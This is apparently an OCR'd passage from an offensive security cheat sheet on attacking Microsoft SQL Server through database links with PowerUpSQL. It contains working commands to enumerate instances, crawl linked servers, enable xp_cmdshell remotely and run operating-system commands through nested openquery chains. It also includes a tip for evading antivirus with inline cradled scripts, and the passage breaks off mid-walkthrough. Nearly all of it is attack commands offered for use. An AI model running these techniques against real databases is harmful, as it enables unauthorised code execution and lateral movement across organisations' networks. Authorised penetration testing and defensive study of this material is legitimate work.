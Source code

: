 ```bash
#Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Search for database links to remote servers
Get-SQLServerLink -Instance <Instance> -Verbose
Get-SQLServerLinkCrawl -Instance <Instance> -Verbose

# Where instance user matches "sa"
Get-SQLServerLinkCrawl -Instance <Instance> | Where-Object {$_.User -match 'sa'}

# Execute commands ( If xp_cmdshell or RPC out is set to enabled)
# If AV is enabled run cradled scripts with functions inline with the script
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<Instance>"
Get-SQLServerLinkCrawl -Instance <Instance> "exec master..xp_cmdshell 'whoami'" -Query

# Scan for misconfigurations and vulnerabilities
Invoke-SQLAudit -Verbose -Instance <Server>
```

#### SQL Commands

```bash
# Search for database links
select * from master..sysservers

# Manually searching for Database Links
select * from openquery("<Server>",'select * from master..sysservers')

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from master..sysservers'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from openquery("eu-sql.eu.eurocorp.local",''''select@@version as version;exec master..xp_cmdshell "powershellwhoami)'''')'')')
```

### MSSQL - PowerupSQL Exploit Example

Search for accessible instances in current domain

```bash
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

ComputerName                           Instance                                    Status
------------                           --------                                    ------
mssql-srv.security.local             mssql-srv.security.local,1433                Accessible
Mgmtsrv01.security.local             mgmtsrv01.security.local,1433                Not Accessible
```

Run the `Get-SQLServerLinkCrawl` on an accessible instance.
